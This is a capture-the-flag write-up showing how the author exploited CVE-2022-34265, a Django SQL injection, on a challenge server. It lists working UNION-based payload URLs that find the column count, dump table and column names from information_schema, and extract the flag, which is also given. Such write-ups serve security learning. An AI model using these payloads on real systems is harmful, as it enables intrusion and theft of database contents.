

It seems we have a web application running on port 80 and the homepage says this


So we know it's a CVE and Google gave the following results



It looks like we have [CVE-2022-34265](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-34265) which is an SQL injection vulnerability in Django. The Tower instruction was misleading though since it says it's a CVE for PHP framework but it's actually a CVE for Django which is a Python framework.

Visiting the paths specified in the homepage, we got the following results


I did some more research about the CVE and found a PoC here https://github.com/aeyesec/CVE-2022-34265

Trying the attack mentioned in the PoC resulted in Django error page for `/extract` path but there was no error on `/trunc` path.


So I tried a simpler attack by adding a single quote (`'` or `%27`) to the `year` parameter and it seems the `/trunc` path may not be vulnerable to SQL injection.


It also seems the challenge site is not setup the same way as the PoC site e.g. It uses MariaDB instead of PostgreSQL. Anyway, we know that we should focus on the `/extract` path and use MySQL syntax for payload.

From now on it was a payload guessing game for a couple of hours until I tried using `UNION` statement like this

```
http://35.240.166.185/test/extract/?lookup_name=year FROM start_datetime)) OR 1=1 UNION SELECT 1--
```

and got an interesting error message


After some more testing, I found that it needs 7 columns for `UNION` statement to work. The query I used now looks like this

```
http://35.240.166.185/test/extract/?lookup_name=year FROM start_datetime)) OR 1=1 UNION SELECT 1, 2, 3, 4, 5, 6, 7--
```

but now there is another error message


It seems Django tried to convert the query result into 'isoformat' so it must be related to some date/time stuff...

I took a step back and looked at the output of the normal `/extract` query result and found that each element in the array looks like this

```json
{
  "model": "secplayground.experiment",
  "pk": null,
  "fields": {
    "start_datetime": "2015-05-03T00:00:00",
    "start_date": "2015-05-03",
    "start_time": "2022-07-29T09:48:50",
    "end_datetime": "2015-05-10T00:00:00",
    "end_date": "2015-05-10",
    "end_time": "2022-07-29T09:48:50"
  }
}
```

My guess is the 7 columns in the query we tested above should correspond to the "pk", "start_datetime", "start_date", "start_time", "end_datetime", "end_date", "end_time" attributes respectively.

Following this theory, the columns that need to be in datetime format should be the last 6 columns. So I adjusted the query accordingly by using `now()` instead of `2..7`

```
http://35.240.166.185/test/extract/?lookup_name=year FROM start_datetime)) OR 1=1 UNION SELECT 1, now(), now(), now(), now(), now(), now()--
```

and now we got a promising output


To confirm that it works, I tried changing `1` to `"AAA"`

```
http://35.240.166.185/test/extract/?lookup_name=year FROM start_datetime)) OR 1=1 UNION SELECT "AAA", now(), now(), now(), now(), now(), now()--
```

And this time we got this. So we can use "pk" column as placeholder for the thing we want to query.


Now we need to figure out the name of the table and column in the database that contains the flag. This can be done with two more queries...

```
http://35.240.166.185/test/extract/?lookup_name=year FROM start_datetime)) OR 1=1 UNION SELECT CONCAT(table_name, '~', column_name), now(), now(), now(), now(), now(), now() FROM information_schema.columns--
```

This will dump all table and column names in the database into the "pk" column.

After searching for `"flag"` using the browser's search function, we found the prime candidate for table and column names that we need.


So the final query would be

```
http://35.240.166.185/test/extract/?lookup_name=year FROM start_datetime)) OR 1=1 UNION SELECT flag_value, now(), now(), now(), now(), now(), now() FROM FLAG--
```

And now we got the flag.


```
Flag: web{Bwq786AthM}
```
